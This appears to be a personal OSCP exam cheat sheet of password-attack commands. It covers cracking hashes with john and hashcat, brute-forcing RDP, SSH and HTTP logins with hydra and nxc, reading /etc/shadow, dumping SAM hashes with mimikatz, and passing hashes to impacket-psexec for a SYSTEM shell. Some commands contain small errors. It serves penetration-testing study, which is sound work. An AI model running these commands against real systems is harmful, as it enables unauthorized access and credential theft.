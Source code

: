 # Passwords
* **ON  OSCP, if password spraying takes more than 15 minutes.. it is not the  correct  path**
## Hash Identify
```bash
hashid 'hash'
hash-identifier 'hash'
hashcat --help | grep -i "KeePass"
```
## Clean up creds/hashes
```bash
awk 'NF {print $1}` dumped_hashes.txt | sort | uniq | tee unique_hashes.txt
john unique_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```
## Cracking
```bash
john --wordlist=$rockyou the_hash
john --wordlist=ssh.passwords --rules=[CUSTOM_RULE_GOES_HERE] ssh.hash
john hash --show

hashcat -h | grep -i "ssh"      
hashcat -m MODE_NUM 'hash' 'wordlist' --force
hashcat -m 22921 ssh.hash ssh.passwords  --force
hashcat -m 1800 -a 0  roothash.txt $rockyou --force -o cracked
hashcat -m 0 hash.txt $rockyou my.rule --force -o cracked
hashcat -m  0 hash.txt --show
```
## Password Lists
```bash
locate seclists | grep -i ssh
/usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt
/usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt

head /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt
# convert to user list and pass list
cat /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt | cut -d ":" -f1 > user
cat /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt| cut -d ":" -f2 > user

# JtR password list, simpler wordlist than rockyou.txt
locate password.lst

# grab first 20 lines of file
head -n 20 /usr/share/john/password.lst   
```
## KDBX Files
```powershell
# Find on Windows
dir /s /b c:\*.kdbx 
Get-ChildItem c:\ -Recurse -Filter *.kdbx -ErrorAction SilentlyContinue

#Cracking
keepass2john Database.kdbx > keepasshash
john --wordlist=$rockyou keepasshash

# keepass2john added, 'Database' user field in front of hash.  Remove for hashcat
hashcat --help | grep -i "KeePass"
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
## RDP 
```bash
# View password policy with win cmd 'net accounts'
# nxc seems to be better for RDP vs Hydra
# grab a username list from here, xato-net-10-million is liek  rock you
/usr/share/seclists/Usernames
nxc rdp <ip> -u list.txt -p 'mypassword'
nxc rdp 192.168.110.227 -u 'nadine' -p "$rockyou" --ignore-pw-decoding

hydra  rdp://192.168.110.227 -l 'nadine' -P $rockyou  

# check for valid login
impacket-rdp_check

# trying impacket as backup too
for i in $(cat userlist) ; do echo "trying ${i}.."; impacket-rdp_check ${i}: 'password'@192.168.1.IP; echo "\n" ; done
for i in $(cat UserList); do echo "Trying ${i}..."; impacket-rdp_check ${i}:'SuperS3cure1337#'192.168.107.202; echo "\n" ; done
```
## SMB
```bash

```
## SSH
```bash
# Try Default Creds, think admin:admin, root:calvin
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt  ssh://<IP>:2222  -I

# remove comments
sed '/^#/d' /usr/share/john/password.lst > clean_passwd.lst

hydra -l george -P clean_passwd.lst ssh://<IP>:2222  -I
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://<IP>


```
### SSH Private Key Passphrase
- Often found via WWW Directory Traversal 
```bash
# connect with id_rsa
chmod 600 id_rsa                 # Set permissions on our found SSH PRIV KEY
ssh -i id_rsa dave@192.168.IP -p 2222  

### Cracking SSH Priv Key passphrase
# 1. convert id_rsa hash to john format
ssh2john id_rsa > ssh.hash      

# For HASHCAT, with text editor, remove any leading filenames before $6 in file ssh.hash
# For John, the file should be g2g

# find correct -m mode to use
hashcat -h | grep -i "ssh"      
hashcat -m 22921 ssh.hash ssh.passwords  --force

### Custom Rule SET password policy
hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force

# if hashcat throws an error, use john instead
john --wordlist=ssh.passwords --rules=[CUSTOM_RULE_GOES_HERE] ssh.hash

###Updating /etc/john/john.conf for custom RULE list
# 3 numbers, A cap Passwords need 3 numbers, a capital letter and a special character
# ssh.rule :  a password 'word' and convert it to 'Word000!' 'Word000@' 'Word000# 'Word001!' etc
[List.Rules:sshPWKRules]
c $[0-9] $[0-9] $[0-9] $!
c $[0-9] $[0-9] $[0-9] $@
c $[0-9] $[0-9] $[0-9] $#

# append john.conf
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'

### Create customized password list from rule set
john --wordlist=ssh.passwords --rules=sshPWKRules --stdout > chp16passwords.txt
```
## WWW
### HTTP  Basic Auth
* We identify basic basic auth because won't see a POST with a user/pass variable at the bottom, just the GET
* for http basic auth, we can crack with *http-get* or *http-post*
```bash
hydra -l admin -P rockyou.txt 192.168.168.201 http-get /admin/ -V
hydra -l admin -P rockyou.txt 192.168.168.201 http-post /admin/ -V
```
### HTTP POST Login
* Always try login with default creds first : admin:admin, check documentation
* Then try bruteforce with rockyou.txt
* HYDRA Brute Force Overview: 
	1. Capture failed login attempt in Burp
	2. Burp -> Intercept ON -> Attempt  to login
	3. Forward Request, Identify *FAILED* login attempt
	4. Use *FAILED l*ogin text for Failed login identifier in the http-post-form
* **http-post-form**
* http-post-form requires 3 COLON `:` delimited  fields
		1. location of login form *index.php*
		2. request body, user/pass *fm_usr=user&fm_pwd=^PASS^*
		3. Failed login identifier: *Login failed. Invalid*
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

# view help
hydra service http-post-form -U
hydra service http-get -U

# Send Hyrda to burp
export HYDRA_PROXY_HTTP=http://127.0.0.1:8080
```

## Linux PASSWD/SHADOW
- Linux stores pass /etc/shadow, Root can R/W to shadow file
- Common Password Hash Encryption Types

| \$1\$         | MD5      |
| ------------- | -------- |
| \$2a\$/\$2y\$ | Blowfish |
| \$5\$         | SHA-256  |
| \$6\$         | SHA-512  |
| \$y\$         | yescrypt |

```bash
# look for valid login shell, real user not service
cat /etc/passwd | grep sh

# get liv privesc for shadow file
unshadow password-file shadow-file
sudo unshadow /etc/passwd /etc/shadow > hashoutput

#  yescrypt  $y$  -- crack with john
john -w=rockyou.txt hash --format=crypt
```
## Windows OS Credential dumping
- Makes sure you always get LOCAL RID 500 administrators
	- This is useful for password re-use
- Reghives
- SAM c:\windows\system32\config\SAM
- SYSTEM -  has system boot key, and  has  secret material protecting things in SAM
- need both SAM and SYSTEM  to crack hashes
```powershell
# Launch CMD/powershell terminal as Administrator
# load mimikatz
# dump sam
.\mimikatz.exe "log users.log" "privilege::debug"  "token::elevate" "lsadump::sam" "exit"
hashcat --help | grep -i ntlm
hashcat ntlmhash rockyou.txt -m 1000
```
- create users file, and file with hashes from dump
- check  with nxc and enumerate shares 
```powershell
  nxc smb ip -u users -H hashes --shares

# use psexec/wmiexec with hash now to get shell
rlwrap impacket-psexec administrator@192.168.ip -hashes :hashvalue
# should be SYSTEM
# we are system because it uploads a binary, RENCOM binary, that abuses named pipe to use RPC to make a service 
# alternate  RDP tool "Remmina"
  ```
## MSSQL
```bash
# OSCP A - attempted password spray via MSSQL, failed
nxc mssql 10.10.158.142 --local-auth -u 'sa'  -p  /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding
```
